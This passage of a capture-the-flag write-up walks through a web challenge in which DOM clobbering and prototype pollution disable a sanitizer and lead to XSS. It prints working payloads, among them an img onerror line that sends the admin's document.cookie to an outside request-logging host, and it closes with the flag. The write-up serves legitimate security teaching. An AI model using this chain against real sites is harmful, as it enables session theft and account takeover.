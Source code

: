 <img src="/static/amactf-sanity/object_assign.png" width="400px">

If the `report` attribute of this `debug` variable is set, then a link is created to report the page to the admin bot with only a click. This section of code is not vulnerable since we can't control the `id` parameter. Also, interestingly enough, if the `debug.sanitize` attribute is set, then the same safe `setHTML()` function will be used. However, if it's NOT set or set to `False`, then the `innerHTML()` function will be used, and that function is NOT safe. Because of the `Debug` class defined above, the default value for `sanitize` is true. 

### Creating the Exploit Chain
Now that we've analyzed the code and how it flows, let's pull out the different vulnerabilities present and find a way to trigger XSS. First to note is that the `innerHTML()` seems to be the best way to render whatever HTML we want. However, in order for that to be set, we need `debug.sanitize` to be set. Since `debug` is created by combining attributes of a `Debug` class (which we don't control) and a random JSON object, if we can control that JSON object, we can get XSS. Now we will need to use prototype pollution in that JSON object to overwrite the default value returned by the `Debug` class. Something like `{"__proto__":{"sanitize":false}}` should do the trick.

How do we control the JSON object though? Here's the code for it:

```javascript
if (window.debug?.extension) {
    let res = await fetch(window.debug?.extension.toString());
    extension = await res.json();
}
```

We need to be able to ensure the `window.debug.extension` variable exists, and control the `toString()` value. We can do this through [DOM clobbering](https://portswigger.net/web-security/dom-based/dom-clobbering#top). DOM clobbering sets variables by assigning specific `id` attributes to HTML elements. For example, you can set `window.debug` by running `window.debug = 1;` in JavaScript, or by creating an element like `<a id='debug'></a>`. How can we set the `extension` attribute though? ([HackTricks](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/dom-clobbering) has a great page on that) When you create 2 HTML elements with the same `id`, they're placed into an array, and the name of the second element will be the attribute name (super wack, I know). For example, `<a id="debug"></a><a id="debug" name="extension"></a>` will make `window.debug.extension` return as `True`. To control the `toString()` method, you just set the `href` attribute of the second element. 

In short, to set `window.debug.extension.toString()` to an arbitrary URL, you just put the following HTML elements on the page - `<a id="debug"></a><a id="debug" name="extension" href="https://domain.tld/path"></a>`. How can we put this on the page? We can use the title!! Since the `Sanitizer()` API only blocks malicious HTML, our snippet isn't marked as "malicious", so if we put that in the title field it will show up correctly. All we need to do now is host a JSON payload on some public webserver (I just used this website) and create our note!

## Exploit Chain Review
* Use the DOM clobbering payload `<a id="debug"></a><a id="debug" name="extension" href="https://justinapplegate.me/a"></a>` in the note title to set `window.debug.extension.toString()` to `https://justinapplegate.me/a`
* The webpage `https://justinapplegate.me/a` hosts a JSON payload `{"__proto__":{"sanitize":false}}` so that the new `debug` variable will have `sanitize` set to `False`.
* Because `debug.sanitize` is set to `False`, our note body will be rendered on the page using `innerHTML()`, allowing us to do XSS
* We can use a payload like `<img src=x onerror="fetch('https://asdfsafasdfs.requestcatcher.com/'+document.cookie)">` in the body so that the cookie is sent to a logging website for us to catch.

Set up the public webpage, create a note with the specified title and body, "report" the note to the admin bot, and wait on your logging website for the admin cookie/flag to come through!

**Flag:** `amateursCTF{s@nit1zer_ap1_pr3tty_go0d_but_not_p3rf3ct}`